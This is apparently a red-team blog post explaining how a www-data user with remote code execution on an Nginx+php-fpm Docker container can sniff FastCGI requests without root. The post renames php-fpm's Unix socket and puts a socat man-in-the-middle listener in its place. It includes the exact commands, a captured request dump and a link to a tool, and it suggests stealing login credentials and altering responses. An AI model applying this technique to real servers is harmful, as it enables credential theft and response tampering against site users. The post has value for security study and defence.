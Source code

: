 # Rootless Sniffing

Once upon a time, a noob found an RCE on a server but didn't got root, the noob wanted to sniff the requests that were arriving on that server, to escalate privileges, but didn't know how. That noob is me , and this is my story.

# Scenario 

Okay, ignore the bullshit intro.
I had access to the `www-data` user, and the server was running `Nginx+php-fpm`, how could I sniff the requests without rooting it to run `tcpdump`? The `Nginx` and `php-fpm` master processes run as `root`, but the workers run on `www-data`. Oh, and it was a docker alpine instance, fack.

# Ideias

## Dumping the memory
The first idea that came to mind was to just dump the memory of the Nginx/php-fpm workers via the `/proc/PID/mem` and hope that the requests are there. Here is a nice thread about it [unix.stackexchange.com/questions/6301/how-do-i-read-from-proc-pid-mem-under-linux](https://unix.stackexchange.com/questions/6301/how-do-i-read-from-proc-pid-mem-under-linux) got most of the info there.

The problem that I ran into was that most tools/scripts uses the `ptrace` syscall to attach  to the process before dumping it, and you can't `ptrace` at all on Docker on kernels older than 4.8 without a specific config `--cap-add=SYS_PTRACE` or on `docker-compose.yml` :

```
cap_add:
    - SYS_PTRACE
```

More deep analysis of this on https://jvns.ca/blog/2020/04/29/why-strace-doesnt-work-in-docker/.

On Docker running kernels after 4.8 you can use the `process_vm_readv` syscall to dump the memory without attaching to it, but you still can't dump the memory of any process under your user. If the `/proc/sys/kernel/yama/ptrace_scope` is set to `1` it will only allow `ptrace`/`process_vm_readv` if your proccess is the father of the process you want to `ptrace`, if it's set to zero you can dump the memory, but it's `1` by default on most systems. More info on `Yama` on general : https://www.kernel.org/doc/Documentation/security/Yama.txt

Basically I can only dump the memory of a process  that I executed, not of any process running on my user. The workers are executed by the masters process that run under root :'( I also can't just spawn a new worker from `www-data` because the master process will ignore it.

## Logs
Editing `Nginx` config to add some logs? No `root` , no way :(

## File Descriptors
The idea here was that to each request the Nginx worker was going to open a new file descriptor to that socket, and I could dump his contents, if I'm quick, via `/proc/PID/fd/N`. It's a nice idea, but you can't interact with sockets/pipes by just using the file `/proc/PID/fd/N`.

There is one way that I found to achieve this: copying all the file descriptors using the fairly new syscall `pidfd_getfd`, this was introduced on kernel 5.6, with the `pidfd_open` syscall you can open a new file descriptor that refers to another process, with that you can use `pidfd_getfd` to copy all file descriptors and use them. Now for the sad part: `pidfd_getfd` permissions are governed by `ptrace` (T_T) So this falls in the same problem as dumping the memory.  
 
## Unix domain socket
Reading through the config file of `php-fpm` I found out that it used a [Unix domain socket]( https://en.wikipedia.org/wiki/Unix_domain_socket ) to communicate with Nginx using [Fastcgi]( https://en.wikipedia.org/wiki/FastCGI ) , what a horrible name btw.

`/usr/local/etc/php-fpm.d/www.conf`
```
[...]
; The address on which to accept FastCGI requests.
; Valid syntaxes are:
;   'ip.add.re.ss:port'    - to listen on a TCP socket to a specific IPv4 address on
;                            a specific port;
;   '[ip:6:addr:ess]:port' - to listen on a TCP socket to a specific IPv6 address on
;                            a specific port;
;   'port'                 - to listen on a TCP socket to all addresses
;                            (IPv6 and IPv4-mapped) on a specific port;
;   '/path/to/unix/socket' - to listen on a unix socket.
; Note: This value is mandatory.
listen = /tmp/.php-fpm.sock
[...]
```

So I began to search for ways of sniffing the Unix domain socket, and turns out it's pretty hard to properly sniff it, mainly because it isn't bound to any protocol, and most reliable ways use `ptrace`, but a dirty hack it's to just rename the socket, everything's a file on unix yadayada, and create a new one that MiTM it , like this [superuser.com/a/576404](https://superuser.com/a/576404), using `socat`. Note that this only works if you can write on the socket's directory, I'm still not sure if this is the default when using a supervisor, or it's a misconfig putting the socket on `/tmp`, but surely it isn't that uncommon.
So here's the PoC :

```
/tmp $ id
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
/tmp $ mv .php-fpm.sock .php-fpm.sock.1
/tmp $ ./socat -t100 -x -v UNIX-LISTEN:/tmp/.php-fpm.sock,mode=777,reuseaddr,fork UNIX-
CONNECT:/tmp/.php-fpm.sock.1
> 2021/03/25 08:47:56.069495  length=816 from=0 to=815
 01 01 00 01 00 08 00 00 00 01 00 00 00 00 00 00  ................
 01 04 00 01 03 06 02 00 0f 15 53 43 52 49 50 54  ..........SCRIPT
 5f 46 49 4c 45 4e 41 4d 45 2f 61 70 69 2f 70 75  _FILENAME/api/pu
 62 6c 69 63 2f 69 6e 64 65 78 2e 70 68 70 0c 07  blic/index.php..
 51 55 45 52 59 5f 53 54 52 49 4e 47 71 3d 2f 68  QUERY_STRINGq=/h
 65 79 26 0e 03 52 45 51 55 45 53 54 5f 4d 45 54  ey&..REQUEST_MET
 48 4f 44 47 45 54 0c 00 43 4f 4e 54 45 4e 54 5f  HODGET..CONTENT_
 54 59 50 45 0e 00 43 4f 4e 54 45 4e 54 5f 4c 45  TYPE..CONTENT_LE
 4e 47 54 48 0b 0a                                NGTH..
 53 43 52 49 50 54 5f 4e 41 4d 45 2f 69 6e 64 65  SCRIPT_NAME/inde
 78 2e 70 68 70 0b 04 52 45 51 55 45 53 54 5f 55  x.php..REQUEST_U
 52 49 2f 68 65 79 0c 0a                          RI/hey..
 44 4f 43 55 4d 45 4e 54 5f 55 52 49 2f 69 6e 64  DOCUMENT_URI/ind
 65 78 2e 70 68 70 0d 0b 44 4f 43 55 4d 45 4e 54  ex.php..DOCUMENT
 5f 52 4f 4f 54 2f 61 70 69 2f 70 75 62 6c 69 63  _ROOT/api/public
 0f 08 53 45 52 56 45 52 5f 50 52 4f 54 4f 43 4f  ..SERVER_PROTOCO
 4c 48 54 54 50 2f 31 2e 31 0e 04 52 45 51 55 45  LHTTP/1.1..REQUE
 53 54 5f 53 43 48 45 4d 45 68 74 74 70 11 07 47  ST_SCHEMEhttp..G
 41 54 45 57 41 59 5f 49 4e 54 45 52 46 41 43 45  ATEWAY_INTERFACE
 43 47 49 2f 31 2e 31 0f 0c 53 45 52 56 45 52 5f  CGI/1.1..SERVER_
 53 4f 46 54 57 41 52 45 6e 67 69 6e 78 2f 31 2e  SOFTWAREnginx/1.
 31 38 2e 30 0b 0a                                18.0..
 52 45 4d 4f 54 45 5f 41 44 44 52 31 37 32 2e 31  REMOTE_ADDR172.1
 38 2e 30 2e 31 0b 05 52 45 4d 4f 54 45 5f 50 4f  8.0.1..REMOTE_PO
 52 54 35 37 35 38 30 0b 0a                       RT57580..
 53 45 52 56 45 52 5f 41 44 44 52 31 37 32 2e 31  SERVER_ADDR172.1
 38 2e 30 2e 32 0b 02 53 45 52 56 45 52 5f 50 4f  8.0.2..SERVER_PO
 52 54 38 30 0b 01 53 45 52 56 45 52 5f 4e 41 4d  RT80..SERVER_NAM
 45 5f 0f 03 52 45 44 49 52 45 43 54 5f 53 54 41  E_..REDIRECT_STA
 54 55 53 32 30 30 09 0e 48 54 54 50 5f 48 4f 53  TUS200..HTTP_HOS
 54 31 32 37 2e 30 2e 30 2e 31 3a 39 30 32 32 0f  T127.0.0.1:9022.
 52 48 54 54 50 5f 55 53 45 52 5f 41 47 45 4e 54  RHTTP_USER_AGENT
 4d 6f 7a 69 6c 6c 61 2f 35 2e 30 20 28 4d 61 63  Mozilla/5.0 (Mac
 69 6e 74 6f 73 68 3b 20 49 6e 74 65 6c 20 4d 61  intosh; Intel Ma
 63 20 4f 53 20 58 20 31 30 2e 31 34 3b 20 72 76  c OS X 10.14; rv
 3a 38 35 2e 30 29 20 47 65 63 6b 6f 2f 32 30 31  :85.0) Gecko/201
 30 30 31 30 31 20 46 69 72 65 66 6f 78 2f 38 35  00101 Firefox/85
 2e 30 0b 4a 48 54 54 50 5f 41 43 43 45 50 54 74  .0.JHTTP_ACCEPTt
 65 78 74 2f 68 74 6d 6c 2c 61 70 70 6c 69 63 61  ext/html,applica
 74 69 6f 6e 2f 78 68 74 6d 6c 2b 78 6d 6c 2c 61  tion/xhtml+xml,a
 70 70 6c 69 63 61 74 69 6f 6e 2f 78 6d 6c 3b 71  pplication/xml;q
 3d 30 2e 39 2c 69 6d 61 67 65 2f 77 65 62 70 2c  =0.9,image/webp,
 2a 2f 2a 3b 71 3d 30 2e 38 14 23 48 54 54 50 5f  */*;q=0.8.#HTTP_
 41 43 43 45 50 54 5f 4c 41 4e 47 55 41 47 45 70  ACCEPT_LANGUAGEp
 74 2d 42 52 2c 70 74 3b 71 3d 30 2e 38 2c 65 6e  t-BR,pt;q=0.8,en
 2d 55 53 3b 71 3d 30 2e 35 2c 65 6e 3b 71 3d 30  -US;q=0.5,en;q=0
 2e 33 14 0d 48 54 54 50 5f 41 43 43 45 50 54 5f  .3..HTTP_ACCEPT_
 45 4e 43 4f 44 49 4e 47 67 7a 69 70 2c 20 64 65  ENCODINGgzip, de
 66 6c 61 74 65 0f 0a                             flate..
 48 54 54 50 5f 43 4f 4e 4e 45 43 54 49 4f 4e 6b  HTTP_CONNECTIONk
 65 65 70 2d 61 6c 69 76 65 1e 01 48 54 54 50 5f  eep-alive..HTTP_
 55 50 47 52 41 44 45 5f 49 4e 53 45 43 55 52 45  UPGRADE_INSECURE
 5f 52 45 51 55 45 53 54 53 31 00 00 01 04 00 01  _REQUESTS1......
 00 00 00 00 01 05 00 01 00 00 00 00              ............
--
< 2021/03/25 08:47:56.098735  length=168 from=0 to=167
 01 07 00 01 00 16 02 00 50 72 69 6d 61 72 79 20  ........Primary
 73 63 72 69 70 74 20 75 6e 6b 6e 6f 77 6e 00 00  script unknown..
 01 06 00 01 00 6b 05 00 53 74 61 74 75 73 3a 20  .....k..Status:
 34 30 34 20 4e 6f 74 20 46 6f 75 6e 64 0d 0a     404 Not Found..
 58 2d 50 6f 77 65 72 65 64 2d 42 79 3a 20 50 48  X-Powered-By: PH
 50 2f 37 2e 34 2e 31 35 0d 0a                    P/7.4.15..
 43 6f 6e 74 65 6e 74 2d 74 79 70 65 3a 20 74 65  Content-type: te
 78 74 2f 68 74 6d 6c 3b 20 63 68 61 72 73 65 74  xt/html; charset
 3d 55 54 46 2d 38 0d 0a                          =UTF-8..
 0d 0a                                            ..
 46 69 6c 65 20 6e 6f 74 20 66 6f 75 6e 64 2e 0a  File not found..
 00 00 00 00 00 01 03 00 01 00 08 00 00 00 00 00  ................
 00 00 00 00 00                                   .....
--
```

Nice, the PoC worked locally and I was seeing the FastCGI requests, but this PoC had some problems.

1. Renaming the socket brought the server down.
2. If my spoofed socket crashed for some reason the server would also go down. 
3. I don't want to depend on `socat` as it's a red flag on any server and a pretty big binary.

So I made a script that automatizes this whole process, and makes sure that if anything goes wrong it will rename the old socket back so the server doesn't go offline.

<script src="https://gist-it.appspot.com/github/caioluders/rootless_sniffing/blob/main/dsm.c"></script>

Here are static-linked binaries for red teaming purposes on [github.com/caioluders/rootless_sniffing](https://github.com/caioluders/rootless_sniffing)

# Conclusions
It was really insightful to go this low on the unix kernel, I'm more of a web guy I guess, and helped a lot to better understand basic authorization flows on the linux kernel. Altho most of my ideas were shit and didn't work, having found that I can spoof the Unix domain socket that the Nginx uses internally is a new technique for me. This can be used on red teaming to escalate privileges, if you weren't able to root it, by getting plain text credentials on a login POST request for example. You can also do more than just sniffing the requests: you can alter the server's responses! Use your imagination, maybe I make a tool later to achieve that.

I don't know which frameworks uses a Unix domain socket in the same way as `Nginx+php-fpm`, but I guess that should exist more contexts that this works, please publish it if you find more scenarios. 

I hope that this is helpful for someone ^.^
